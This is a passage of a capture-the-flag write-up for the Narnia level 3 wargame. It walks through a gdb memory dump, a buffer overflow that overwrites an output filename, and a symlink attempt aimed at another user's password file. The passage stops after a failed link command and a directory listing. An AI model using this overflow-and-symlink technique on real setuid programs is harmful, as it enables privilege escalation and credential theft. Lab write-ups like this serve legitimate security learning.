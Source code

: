 shell xxd dump.bin
end
(gdb) xxd $esp 125
0000000: 88d4 ffff d1d6 ffff 0000 0000 0100 0000  ................
0000010: 08d9 fff7 96d4 ffff a0d4 ffff 6089 edf7  ............`...
0000020: 96d4 ffff 1563 e8f7 97d4 ffff 0100 0000  .....c..........
0000030: 0000 0000 20d5 ffff 4141 4141 4141 4141  .... ...AAAAAAAA
0000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0000050: 4141 4141 4141 4141 0064 6576 2f6e 756c  AAAAAAAA.dev/nul
0000060: 6c00 0000 0000 0000 8b86 0408 f46f fbf7  l............o..
0000070: 8086 0408 0000 0000 48d5 ffff 46         ........H...F
>```
>
> Ok, we can see our null character ending our string and then ```dev/null``` right after.  Let's see if we can overwrite that.
>
>```asm
(gdb) run $(python -c 'print "A"*40')
Starting program: /root/narnia3 $(python -c 'print "A"*40')
warning: no loadable sections found in added symbol-file system-supplied DSO at 0xf7fde000
>
Breakpoint 1, 0x08048585 in main ()
(gdb) xxd $esp 125
0000000: 78d4 ffff c9d6 ffff 0000 0000 0100 0000  x...............
0000010: 08d9 fff7 86d4 ffff 90d4 ffff 6089 edf7  ............`...
0000020: 86d4 ffff 1563 e8f7 87d4 ffff 0100 0000  .....c..........
0000030: 0000 0000 10d5 ffff 4141 4141 4141 4141  ........AAAAAAAA
0000040: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0000050: 4141 4141 4141 4141 4141 4141 4141 4141  AAAAAAAAAAAAAAAA
0000060: 0000 0000 0000 0000 8b86 0408 f46f fbf7  .............o..
0000070: 8086 0408 0000 0000 38d5 ffff 46         ........8...F
>```
>
> There we go.  So it looks like we can redirect the output file to something of our choosing.  The target is going to be reading the ```/etc/narnia_pass/narnia4``` file.  Now we just need to come up with a way to create a payload around those two pieces of information.
>
> After some messing around I think I found the right track.  The input file is going to be a long name because we have to overwrite the output file at the end. At the same time, that input has to exist and we ultimately want that file to be the password file.  What if we create a symbolic link with the big long name and point it to ```/etc/narnia_pass/narnia4```?  If we can do that, then we just need to give it any other output file besides ```/dev/null``` and we should be able to retrieve the password. Let's go ahead and login and give it a try.
>
>```
narnia3@melinda:/narnia$ ln -s /etc/narnia_pass/narnia4 $(python -c 'print "A"*32+"\x66\x69\x6c\x65"')
ln: failed to create symbolic link 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAfile': Permission denied
narnia3@melinda:/narnia$ ls -la .
total 77
drwxr-xr-x  2 root    root    1024 Nov 14  2014 .
drwxr-xr-x 11 root    root    1024 Mar 18 12:34 ..
-r-sr-x---  1 narnia1 narnia0 7452 Nov 14  2014 narnia0
-r--r-----  1 narnia0 narnia0 1138 Nov 14  2014 narnia0.c
-r-sr-x---  1 narnia2 narnia1 7368 Nov 14  2014 narnia1
-r--r-----  1 narnia1 narnia1 1000 Nov 14  2014 narnia1.c
-r-sr-x---  1 narnia3 narnia2 5142 Nov 14  2014 narnia2
-r--r-----  1 narnia2 narnia2  999 Nov 14  2014 narnia2.c
-r-sr-x---  1 narnia4 narnia3 5816 Nov 14  2014 narnia3
-r--r-----  1 narnia3 narnia3 1841 Nov 14  2014 narnia3.c
-r-sr-x---  1 narnia5 narnia4 5320 Nov 14  2014 narnia4
-r--r-----  1 narnia4 narnia4 1064 Nov 14  2014 narnia4.c
-r-sr-x---  1 narnia6 narnia5 5488 Nov 14  2014 narnia5
-r--r-----  1 narnia5 narnia5 1221 Nov 14  2014 narnia5.c